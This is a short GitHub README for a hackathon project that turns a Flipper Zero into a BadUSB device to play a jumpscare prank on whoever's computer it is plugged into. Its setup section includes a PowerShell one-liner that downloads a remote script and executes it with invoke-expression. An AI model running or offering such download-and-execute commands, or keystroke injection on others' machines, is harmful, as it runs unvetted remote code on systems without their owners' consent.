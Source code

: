 # Flipper Zero BadUSB

This project was done for the 2024 Hacknotts hackathon.

## Description

This script creates a jumpscare effect on a person's computer when the badUSB is plugged in. This project uses the flipper zero as a badUSB and I-Am-Jakoby's payload as a template.

## How to run

Download the repository, unzip and move it in the flipper zero's badUSB folder. Plug in the USB on a laptop and then run the txt file. Alternatively, if you don't own a flipper zero, just run this command (all in one line) in powershell:  
```$pl = iwr https://raw.githubusercontent.com/Ta0hit/FlipperZero/refs/heads/main/RubberDucky-JumpScare/JumpScare.ps1?dl=1; invoke-expression $pl```

## Credits

Jakoby repo: <https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/tree/main/Payloads/Flip-JumpScare>

Cat image: <https://e0.pxfuel.com/wallpapers/518/601/desktop-wallpaper-little-tiger-pisica-animal-kitten-cute-cat-funny-paw-hand.jpg>
